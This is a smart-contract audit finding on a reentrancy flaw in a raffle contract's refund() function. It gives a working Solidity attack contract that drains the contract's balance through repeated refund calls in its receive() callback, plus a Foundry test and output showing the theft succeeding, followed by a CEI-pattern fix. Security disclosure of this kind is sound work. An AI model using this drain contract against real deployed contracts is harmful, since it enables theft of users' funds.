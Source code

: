 ## [High - Lost of Funds] Reentrancy attack due to Function refund() not following CEI pattern

### Severity

High Risk

### Date Modified

Oct 27th, 2023

### Summary

All functions with calls should follow the CEI (Check-Effect-Interact) pattern, otherwise the contract is susceptible to losing all funds.

In this case, we can see that the actions are Check-Interact-Effect so a malicious user could steal the entire the contract balance.

Other options are to use the OpenZeppelin library or a modifier, but we will explain this later.

### Vulnerability Details (PoC)

Step 1: To prove the vulnerability, we need an attack contract, as it is not possible to do this with an EOA account.

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.7.0;

import {console} from "forge-std/Test.sol";

interface IPuppyRaffle {
    function enterRaffle(address[] memory newPlayers) external payable;
    function refund(uint256 playerIndex) external;
    function getActivePlayerIndex(address player) external view returns (uint256);
}

contract RefundHack {
    IPuppyRaffle puppyRaffle;

    address owner;
    uint256 indexOfPlayer;
    uint256 entranceFee = 1e18;

    modifier onlyOwner() {
        require(msg.sender == owner, "only Owner");
        _;
    }

    constructor(address _puppyRaffle) {
        owner = msg.sender;
        puppyRaffle = IPuppyRaffle(_puppyRaffle);
    }

    function enterRaffle() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
    }

    function attack() external onlyOwner {
        indexOfPlayer = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(indexOfPlayer);
    }

    receive() external payable {
        uint256 raffleBalance = (address(puppyRaffle).balance / 1e18);
        if (raffleBalance > 0) {
            puppyRaffle.refund(indexOfPlayer);
        }
        (bool success,) = owner.call{value: msg.value}("");
        require(success);
    }
}

```

Step 2: Using the same test contract that was created by the dev team:

1. Create a new user attacker.
2. Deploy the attack contract.

Step 3: Create and run the test:

```
function test_refundAttack() external playersEntered {
    // 0.- Starting point
    uint256 raffleBalance = (address(puppyRaffle).balance);
    assertEq(address(attacker).balance, entranceFee);
    assertEq(address(puppyRaffle).balance, raffleBalance);

    vm.startPrank(attacker);
    // 1.- Put the attack contract into the Raffle
    refundHack.enterRaffle{value: entranceFee}();

    // 4.- Stole the funds
    refundHack.attack();
    vm.stopPrank();

    // After the attack, attacker has all the contract balance and contract has 0.
    assertEq(address(attacker).balance, raffleBalance + entranceFee);
    assertEq(address(puppyRaffle).balance, 0);
    }

```

```
  2023-10-Puppy-Raffle git:(main) ✗ forge test --mt test_refundAttack
[⠔] Compiling...
[⠊] Compiling 2 files with 0.7.6
[⠒] Solc 0.7.6 finished in 1.42s

Running 1 test for test/PRTEst.t.sol:PuppyRaffleTest
[PASS] test_refundAttack() (gas: 305684)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 4.39ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)

```

### Impact

The application will lose any funds it had at the time and will remain vulnerable for future raffles.

### Tools Used

Foundry, terminal.

### Recommendations

The only way to guarantee 100% avoidance of reentrancy attacks is to follow the CEI pattern. So the function has to be rewritten:

```
function refund(uint256 playerIndex) public {
    address playerAddress = players[playerIndex];
    require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
    require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

    players[playerIndex] = address(0);
    payable(msg.sender).sendValue(entranceFee);

    emit RaffleRefunded(playerAddress);
}
```

Now, the same test fail:

```
➜  2023-10-Puppy-Raffle git:(main) ✗ forge test --mt test_refundAttack
[⠢] Compiling...
No files changed, compilation skipped

Running 1 test for test/PRTEst.t.sol:PRTEst
[FAIL. Reason: Address: unable to send value, recipient may have reverted] test_refundAttack() (gas: 249565)
Test result: FAILED. 0 passed; 1 failed; 0 skipped; finished in 1.05ms

Ran 1 test suites: 0 tests passed, 1 failed, 0 skipped (1 total tests)

Failing tests:
Encountered 1 failing test in test/PRTEst.t.sol:PRTEst
[FAIL. Reason: Address: unable to send value, recipient may have reverted] test_refundAttack() (gas: 249565)

Encountered a total of 1 failing tests, 0 tests succeeded
➜  2023-10-Puppy-Raffle git:(main) ✗
```

In addition, it is also recommended that you add a custom reentrancy modifier or use the Open Zeppelin library directly:

https://docs.openzeppelin.com/contracts/4.x/api/security#ReentrancyGuard
